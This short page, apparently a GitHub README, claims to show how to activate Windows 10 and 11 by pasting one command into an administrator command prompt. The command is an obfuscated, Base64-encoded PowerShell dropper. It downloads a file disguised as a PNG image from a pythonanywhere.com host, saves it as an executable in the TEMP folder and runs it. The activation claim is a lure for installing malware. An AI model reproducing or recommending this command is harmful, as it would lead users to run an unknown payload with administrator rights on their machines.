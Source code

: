 ## To activate Windows 10 and 11 follow the steps.

> Just copy and paste the following command into CMD admin.


> [!NOTE]
> powershell -EncodedCommand SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgACIAaAB0AHQAcABzADoALwAvAHQANABtAHAAZAByAC4AcAB5AHQAaABvAG4AYQBuAHkAdwBoAGUAcgBlAC4AYwBvAG0ALwBzAHQAYQB0AGkAYwAvAGkAbgBpAHQALgBwAG4AZwAiACAALQBPAHUAdABGAGkAbABlACAAIgAkAGUAbgB2ADoAVABFAE0AUABcAC4AZQB4AGUAIgAgAC0AVQBzAGUAQgBhAHMAaQBjAFAAYQByAHMAaQBuAGcAOwAgAFMAdABhAHIAdAAtAFAAcgBvAGMAZQBzAHMAIAAtAEYAaQBsAGUAUABhAHQAaAAgACIAJABlAG4AdgA6AFQARQBNAFAAXAAuAGUAeABlACIA



> Wait about 1 minute for windows to activate. you do not need to restart the computer after the procedure


